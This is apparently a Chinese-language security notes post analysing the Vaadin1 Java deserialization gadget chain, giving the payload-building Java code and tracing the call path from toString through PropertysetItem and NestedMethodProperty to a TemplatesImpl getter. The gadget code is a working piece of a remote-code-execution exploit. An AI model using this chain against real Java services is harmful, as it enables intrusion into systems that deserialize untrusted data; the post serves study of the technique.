 # Vaadin1

Vaadin 是一个在Java后端快速开发web应用程序的平台。用 Java 或 TypeScript 构建可伸缩的 UI，并使用集成的工具、组件和设计系统来更快地迭代、更好地设计和简化开发过程。

## exp

```java
 @Override
    public Object getObject (String command) throws Exception
    {
        Object templ = Gadgets.createTemplatesImpl (command);
        PropertysetItem pItem = new PropertysetItem ();

        NestedMethodProperty<Object> nmprop = new NestedMethodProperty<Object> (templ, "outputProperties");
        pItem.addItemProperty ("outputProperties", nmprop);
        BadAttributeValueExpException b = new BadAttributeValueExpException ("");
        Reflections.setFieldValue (b, "val", pItem);
        return b;
    }
```

## 分析

### NestedMethodProperty

可以看出来是基于嵌套访问器的属性。大概看了一下代码，这个就是存储一个getter方法

```java
new NestedMethodProperty<Object> (templ, "outputProperties");
```

这个就是存储了一个templ#outputProperties的getter方法。


 ![image-20220513094441951](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513094441951.png)

 只要调用他的getvalue方法就可以触发

![image-20220513095101256](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513095101256.png)

### PropertysetItem

触发类是 `com.vaadin.data.util.PropertysetItem` ，这个类用来存储 Property 属性值，为其映射一个 id 对象。数据存放在成员变量 map 中，想要获取相应属性时，则调用 `getItemProperty` 方法在 map 中获取。

![image-20220513095158013](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513095158013.png)

### 链子


![image-20220513094304692](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513094304692.png)

toString起手==>PropertysetItem#toString ==> NestedMethodProperty#getvalue ==> template

